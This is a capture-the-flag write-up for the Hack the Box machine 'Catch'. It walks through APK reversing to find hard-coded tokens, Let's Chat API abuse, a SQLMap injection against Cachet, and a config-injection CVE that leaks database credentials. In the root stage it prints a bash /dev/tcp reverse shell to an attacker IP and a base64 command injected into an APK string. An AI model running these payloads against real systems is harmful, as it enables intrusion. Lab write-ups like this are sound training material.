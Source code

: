 ```yaml
---
layout: post
title: "Hack the Box: Catch"
tags:
    - CTF
    - HTB
---
```


Catch is a great example of applying basic APK reversing and CVE exploitation. It's an application that's intended to integrate Gitea and Let's Chat and makes the mistake of using hard-coded credentials and an insecure dashboard.

## osint

Starting with an Nmap scan revealed a number of services running on the target.

```bash
PORT     STATE SERVICE REASON  VERSION
22/tcp   open  ssh     syn-ack OpenSSH 8.2p1 Ubuntu 4ubuntu0.4 (Ubuntu Linux; protocol 2.0)
80/tcp   open  http    syn-ack Apache httpd 2.4.41 ((Ubuntu))
3000/tcp open  ppp?    syn-ack
5000/tcp open  upnp?   syn-ack
```

Interestingly, there were two different Apache services, both on different versions, as well as another two ports that were not identified.

Cookies fetched by an Nmap script showed that there was a Gitea server running on port 3000. But the other ports were still unknown.

```bash
Set-Cookie: i_like_gitea=a9634c3d8acdc09d; Path=/; HttpOnly
```

Opening each of the pages in a web browser helped to identify these other services.

The main page on port 80 was a simple landing page for 'Catch Global Systems', allowing the user to download an APK file. This would have to be further investigated.

Port 3000 was running Gitea version 1.14.1 with Go 1.16.3 and port 5000 was running [Let's Chat](https://github.com/sdelements/lets-chat). Both of these were locked with passwords and default credentials did not work.

The last page of interest was a monitoring dashboard running on port 8000 which appeared to be based on Cachet 2.4. Some background research found a few different CVEs which could be useful however they all required an authenticated user and would not be useable at this point.


## reverse-engineering

Going back to the APK that was found, Apktool can be used to decompile the binary so that the source code can be browsed in another application such as VSCode.

```bash
apktool d ./catchv1.0.apk
```

According to the landing page that was found earlier, "The future enhancements [include] Lets-chat/Gitea integration", hinting that there could be API keys or hard-coded credentials in the application to integrate these services.

After looking around, there was one file that stood out based on its contents.

```bash
original/res/values/strings.xml
```

This file contained variables controlling the application name among other things as well as 3 different API keys; Gitea, Let's Chat and Slack.

```bash
<string name="gitea_token">b87bfb6345ae72ed5ecdcee05bcb34c83806fbd0</string>

<string name="lets_chat_token">NjFiODZhZWFkOTg0ZTI0NTEwMzZlYjE2OmQ1ODg0NjhmZjhiYWU0NDYzNzlhNTdmYTJiNGU2M2EyMzY4MjI0MzM2YjU5NDljNQ==</string>

<string name="slack_token">xoxp-23984754863-2348975623103</string>
```

## exploitation

Of the 3 tokens, only one seemed to work, which was Let's Chat. Following the [API documentation on Github](https://github.com/sdelements/lets-chat/wiki/API), Curl could be used to fetch the open rooms.

```bash
curl -H "Authorization: bearer NjFiODZhZWFkOTg0ZTI0NTEwMzZlYjE2OmQ1ODg0NjhmZjhiYWU0NDYzNzlhNTdmYTJiNGU2M2EyMzY4MjI0MzM2YjU5NDljNQ==" -i   http://10.10.11.150:5000/rooms
```
```bash
61b86b28d984e2451036eb17 Status
61b8708efe190b466d476bfb Android Development
61b86b3fd984e2451036eb18 Employees
```

And this information could be used to then read messages from the rooms.

```bash
curl -H "Authorization: bearer NjFiODZhZWFkOTg0ZTI0NTEwMzZlYjE2OmQ1ODg0NjhmZjhiYWU0NDYzNzlhNTdmYTJiNGU2M2EyMzY4MjI0MzM2YjU5NDljNQ==" -i   http://10.10.11.150:5000/rooms/61b86b28d984e2451036eb17/messages
```

```bash
"ah sure!"
"You should actually include this task to your list as well as a part of quarterly audit"
"Also make sure we've our systems, applications and databases up-to-date."
"Excellent!"
"Why not. We've this in our todo list for next quarter"
"@john is it possible to add SSL to our status domain to make sure everything is secure ?"
"Here are the credentials `john :  E}V!mywu_69T4C}W`"
"Sure one sec."
"Can you create an account for me ?"
"Hey Team! I'll be handling the `status.catch.htb` from now on. Lemme know if you need anything from me."
```

This conversation revealed some credentials for the status page on port 8000. Testing these credentials on other pages showed that they are only used on this one page.

```bash
"Here are the credentials `john :  E}V!mywu_69T4C}W`"
```

Using SQLMap, it was possible to dump some more API keys from the database however they did not end up being necessary.

```bash
sqlmap -u "http://status.catch.htb:8000/api/v1/components?name=1&1[0]=&1[1]=a&1[2]=&1[3]=or+%27a%27=%3F%20and%201=1)*+--+" --dbms=mysql -D cachet -T users -C api_key,username --dump

+----------------------+----------+
| api_key              | username |
+----------------------+----------+
| 7GVCqTY5abrox48Nct8j | john     |
| rMSN8kJN9TPADl2cWv8N | admin    |
+----------------------+----------+
```

Instead, using a CVE for Cachet 2.4, detailed in [this blog post](https://blog.sonarsource.com/cachet-code-execution-via-laravel-configuration-injection/), it was possible to dump the username and password of the configured MySQL database user.

Inputting these strings into the 'Mail From Address' field under settings and mail, and refreshing the page, returned the name and password of the user.

```bash
${DB_USERNAME} = will

${DB_PASSWORD} = s2#4Fg0_%3!
```

Now finally, with this information it is possible to connect with SSH and login as Will to read the user flag.

```bash
User Flag: 794e64d1eb9b77178f53792d5a0b60e8
```

## privilege escalation

The server was running a wildcard cronjob to execute the APKs in /opt/mdm/apk_bin so it was possible to recompile the apk with shellcode which would be run as a privileged user.

Adding the shellcode to "app_name" gave arbitrary code execution which could be used to start a reverse shell.
```bash
/bin/bash -l > /dev/tcp/10.10.14.98/9001 0<&1 2>&1
```

(strings.xml with Base64 encoded shell code)
```bash
Strings.xml
<string name="app_name">Catch; echo L2Jpbi9iYXNoIC1sID4gL2Rldi90Y3AvMTAuMTAuMTQuOTgvOTAwMSAwPCYxIDI+JjEK | base64 -d | bash -i</string>
```

And a reverse listener could be started using Netcat on the local machine before uploading the APK to the server.

```bash
nc -lvp 9001
scp out.apk will@10.10.11.150:/opt/mdm/apk_bin/
```

```bash
listening on [any] 9001 ...
connect to [10.10.14.98] from status.catch.htb [10.10.11.150] 36122

> id
uid=0(root) gid=0(root) groups=0(root)
> ls
Catch
lets-chat
mdm
reset.sh
root.txt
run.sh
```
